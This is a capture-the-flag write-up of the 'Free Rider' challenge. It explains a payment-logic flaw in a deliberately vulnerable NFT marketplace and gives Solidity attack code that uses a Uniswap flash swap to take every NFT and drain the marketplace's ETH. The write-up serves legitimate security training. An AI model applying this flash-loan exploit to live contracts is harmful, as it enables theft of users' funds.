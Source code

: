 # Solving "The Free Rider" 🕵️‍♂️

## The Challenge That Made Me Smile

This one was beautifully crafted - a clean exploit hiding behind some tangled logic. Walking away from this challenge with a grin on my face!

## The Hunt: How I cracked this Puzzle

### Step 1: Finding the perfect target

The first mission was identifying where to strike. After some reconnaissance, `FreeRiderNFTMarketplace::buyMany` emerged as the prime candidate to attack at.

### Step 2: Uncovering the Beautiful Bug

Diving deep into this function revealed some fascinating flaws:

**The Price Check Illusion:** The function demands a minimum of `15 ether` to proceed - that's the price of a single NFT. But here's the kicker: it only validates against `msg.value` for each **tokenId**. Sent `15 ETH` instead of the expected 90 ETH for 6 NFTs and The function happily obliged.

**The Payment Redirect Magic:** When the function transfers NFTs, it sends payment to the _new owner_ instead of the original seller. It's like the marketplace forgot who it was supposed to pay!

```javascript
    // transfer from seller to buyer
    DamnValuableNFT _token = token; // cache for gas savings
    _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

    // pay seller using cached token
    payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```

### The 15 ETH Problem

Here's where things got spicy. Even with this vulnerability, I still needed `15 ETH` to trigger the exploit. My measly `0.1 ETH` starting balance wasn't going to cut it.

But wait - there's money sitting in that `UniswapPair V2` contract, just waiting to be borrowed.

### The flash swap: Eureke moment

I initially overlooked the `data` parameter in `UniswapV2Pair::swap`, but then this line caught my eye:

```javascript
if (data.length > 0)
  IUniswapV2Callee(to).uniswapV2Call(msg.sender, amount0Out, amount1Out, data);
```

Boom! **Flash swaps** - Uniswap's way of letting you borrow first, pay later. This was my ticket.

## Crafting the perfect Heist

### Building the Attack Contract

First, I needed a contract that could handle NFT transfers (implementing `IERC721Receiver::onERC721Received`) - can't have the transaction reverting when it tries to send me those 6 pricely NFTs.

### The Flash swap attack orchestration

```javascript
function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
    require(msg.sender == address(i_pair), "Incorrect caller");
    require(sender == address(this), "Callee is not the this contract");
    (uint256 borrowed, ) = abi.decode(data, (uint256, string));
    require(amount0 == borrowed, "Borrowed amount mismatch");
    require(amount1 == 0, "Other token not borrowed");

    // Convert WETH to ETH - get liquidity
    i_weth.withdraw(borrowed);

    // Set up our NFTs list
    uint256[] memory ids = new uint256[](6);
    for(uint i = 0; i < 6; i++){
        ids[i] = i;
    }
    // Execute the heist
    i_marketPlace.buyMany{value: borrowed}(ids);

    // Pay back the loan with extra interest
    i_weth.deposit{value: 16 ether}();
    i_weth.transfer(address(i_pair), 16 ether);
}
```

### Summary of The attack flow :

- **The Swap:** Borrow `15 ETH` worth of `WETH` from `Uniswap`
- **The Conversion:** Unwrap that WETH into ETH
- **The Strike:** Call `buyMany` with our borrowed funds
- **The Magic:** Watch as all `6 NFTs` flow to our contract while draining `75 ETH` from the marketplace
- **The Payback:** Return `16 ETH` to `Uniswap` (the extra covers fees)

### The Main Event

```javascript
function attack() external {
    bytes memory data = abi.encode(15 ether, "buy nft");
    i_pair.swap(15 ether, 0, address(this), data);

    // Send all the drained ETH to our player
    (bool success, ) = i_player.call{value: address(this).balance}("");
    require(success, "ETH transfer failed");

    // And don't forget the NFTs!
    for(uint256 i = 0; i < 6; i++){
        i_token.transferFrom(address(this), i_player, i);
    }
}
```

### Claiming the Bounty

```javascript
bytes memory data = abi.encode(player);
for(uint i = 0; i < AMOUNT_OF_NFTS; i++){
    nft.safeTransferFrom(player, address(recoveryManager), i, data);
}
```

## The victory

Mission accomplished! Not only did I almost drain the marketplace, but also walked away with the bounty reward. The player's balance skyrocketed to over `45 ETH`.

This challenge perfectly demonstrated **how a single logical flaw can cascade into a complete system compromise**. The marketplace's confusion about who to pay, combined with Uniswap's flash swap capabilities, perfectly orchestrates this elegant exploit.
